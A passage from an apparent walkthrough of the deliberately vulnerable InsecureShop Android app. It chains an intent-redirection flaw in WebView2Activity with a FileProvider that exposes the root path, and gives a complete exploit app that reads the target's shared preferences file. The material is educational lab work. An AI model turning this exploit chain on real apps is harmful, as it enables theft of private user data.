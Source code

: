```xml
<?xml version="1.0" encoding="utf-8"?>
<paths xmlns:android="http://schemas.android.com/apk/res/android">
    <root-path name="root" path="/"/>
</paths>
```

That means we have access to all files under `/` directory of the devices and the word root should be added after the android authorities to trigger the provider like this `content://com.insecureshop.file_provider/root/`. But we have a problem here, this provider isn’t exported, which means only this app can be using it.

**Combining Intent Redirection with an Insecure File Provider**

If you remember, we have discovered a vulnerability before that allowed us to access any protected component, and we’ve managed to access the `PrivateActivity` Component. Let’s review the vulnerable code again for `com.insecureshop.WebView2Activity`:

```java
   public void onCreate(Bundle savedInstanceState) { 
        super.onCreate(savedInstanceState);
        setContentView(C0893R.layout.activity_webview);
        setSupportActionBar((Toolbar) _$_findCachedViewById(C0893R.C0896id.toolbar));
        setTitle(getString(C0893R.string.webview));
        Intent extraIntent = (Intent) getIntent().getParcelableExtra("extra_intent");
        if (extraIntent != null) {
            startActivity(extraIntent);
            finish();
            return;
        } 
```

So we only need to pass the protected component along with the `extra_intent` parameter. Let’s craft our exploit app:

**`MainActivity.java`**

```java
public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

                // Once the WebView2Activity Start it will start for us the Activity2 from my app
                // then access the content provider and get the content of the Prefs.xml file and add it to the Intent data
                // finally in the Activity2 we will get the Intent Data and Log it
        Intent FileProviderIntent = new Intent();
        FileProviderIntent.setFlags(Intent.FLAG_GRANT_READ_URI_PERMISSION);
        FileProviderIntent.setClassName(getPackageName(), "com.insecureshopapp.protectedinsecureprovider.Activity2");
        FileProviderIntent.setData(Uri.parse("content://com.insecureshop.file_provider/root/data/data/com.insecureshop/shared_prefs/Prefs.xml"));

        // Start the Vulnerable Actvity
        Intent WebView2Activity = new Intent();
        WebView2Activity.setClassName("com.insecureshop", "com.insecureshop.WebView2Activity");
        WebView2Activity.putExtra("extra_intent", FileProviderIntent);

        startActivity(WebView2Activity);
    }
}
```
